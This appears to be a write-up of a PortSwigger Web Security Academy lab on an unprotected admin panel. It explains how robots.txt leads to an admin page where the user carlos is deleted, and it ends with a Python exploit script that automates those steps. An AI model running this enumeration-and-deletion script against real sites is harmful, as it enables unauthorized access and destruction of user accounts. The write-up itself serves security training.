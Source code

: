 # Lab: Unprotected admin functionality

 This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

---

We search for the `robots.txt` file:  
![image](https://github.com/user-attachments/assets/3b376178-5266-485d-9738-af00b1640f2a)

We navigate to the `administrator-panel` and find that there is no access control in place. The panel provides options to delete users. We click on `carlos - Delete` and solve the lab:  
![image](https://github.com/user-attachments/assets/f63d27dc-dda9-4e41-a238-fd6bd37755ec)

---

# Exploit

```python
from bs4 import BeautifulSoup
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
url = "https://0a2200f603ee15fea792e6e6009a004a.web-security-academy.net"
robots_url = url + "/robots.txt"
robots_content = requests.get(robots_url, verify=False, proxies=proxies)

disallows = [line.split(': ')[1] for line in robots_content.text.splitlines() if line.startswith('Disallow')]

admin_url = url + disallows[0]

admin_panel = requests.get(admin_url, verify=False, proxies=proxies)

soup = BeautifulSoup(admin_panel.text, 'html.parser')
delete_link = soup.find('a', href=lambda href: href and 'delete' in href)
delete_url = delete_link['href']

delete_url = delete_url.replace('wiener', 'carlos')

delete_panel = requests.get(url + delete_url, verify=False, proxies=proxies)

print(delete_panel.status_code)
print(delete_panel.headers)
print(delete_panel.text)
```
